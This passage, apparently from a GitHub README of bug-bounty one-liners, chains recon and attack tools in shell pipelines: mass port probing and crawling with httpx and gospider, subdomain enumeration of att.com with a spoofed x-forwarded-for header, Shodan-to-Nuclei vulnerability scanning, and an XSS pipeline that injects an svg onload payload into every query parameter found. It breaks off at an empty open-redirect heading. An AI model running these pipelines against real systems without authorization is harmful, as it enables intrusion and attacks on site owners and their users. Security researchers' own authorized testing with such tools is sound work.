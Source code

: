 - [Explained comand](https://bit.ly/2EHj1FD)

```bash
httpx -ports 80,443,8009,8080,8081,8090,8180,8443 -l domain -timeout 5 -threads 200 --follow-redirects -silent | gargs -p 3 'gospider -m 5 --blacklist pdf -t 2 -c 300 -d 5 -a -s {}' | anew stepOne
```

### Injection xss using qsreplace to urls filter to gospider

- [Explained comand](https://bit.ly/3joryw9)

```bash
gospider -S domain.txt -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg%20onload=confirm(1);>'
```

### Extract URL's to apk

- [Explained comand](https://bit.ly/2QzXwJr)

```bash
apktool d app.apk -o uberApk;grep -Phro "(https?://)[\w\.-/]+[\"'\`]" uberApk/ | sed 's#"##g' | anew | grep -v "w3\|android\|github\|schemas.android\|google\|goo.gl"
```

### Chaos to Gospider

- [Explained comand](https://bit.ly/3gFJbpB)

```bash
chaos -d att.com -o att -silent | httpx -silent | xargs -P100 -I@ gospider -c 30 -t 15 -d 4 -a -H "x-forwarded-for: 127.0.0.1" -H "User-Agent: Mozilla/5.0 (Linux; U; Android 2.2) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1" -s @
```

### Checking invalid certificate

- [Real script](https://bit.ly/2DhAwMo)
- [Script King](https://bit.ly/34Z0kIH)

```bash
xargs -a domain -P1000 -I@ sh -c 'bash cert.sh @ 2> /dev/null' | grep "EXPIRED" | awk '/domain/{print $5}' | httpx
```

### Using shodan & Nuclei

- [Explained comand](https://bit.ly/3jslKle)

```bash
shodan domain DOMAIN TO BOUNTY | awk '{print $3}' | httpx -silent | nuclei -t /nuclei-templates/
```

### Open Redirect test using gf.

- [Explained comand](https://bit.ly/3hL263x)

